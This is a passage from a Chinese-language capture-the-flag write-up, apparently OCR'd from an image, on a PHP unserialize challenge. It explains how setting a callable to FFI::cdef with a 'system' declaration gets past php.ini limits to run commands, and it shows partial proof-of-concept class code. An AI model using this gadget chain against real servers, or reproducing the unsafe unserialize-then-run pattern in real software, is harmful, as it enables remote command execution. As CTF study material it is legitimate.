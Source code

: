 ```php
    }

    public function serialize (): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }

    public function __get ($key) {
        return $this->data[$key];
    }

    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }

    public function __construct () {
        throw new \Exception('No implemented');
    }
}

```

如果熟读以上三个文档，这个题就很好出了

我们可以把func设为`FFI:cdef`，arg设为`int system(char *command)`来执行c代码绕过php.ini中的限制；同时由于Serializable的种种新特性（出题人也在这里设了坑），我们在构造poc时要删除`__serialize()`，防止直接return进坑里了

```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'FFI::cdef',
        'arg' => 'int system(char *command);'
    ];

    private function run () {
        $this->data['ret'] = $this->data['func']($this->data['arg']);
    }
    public function serialize (): string {
        return serialize($this->data);
    }

    public function __unserialize(array $data) {
        array_merge($this->data, $data);
        $this->run();
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }

    public function __get ($key) {
        return $this->data[$key];
    }

    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }
```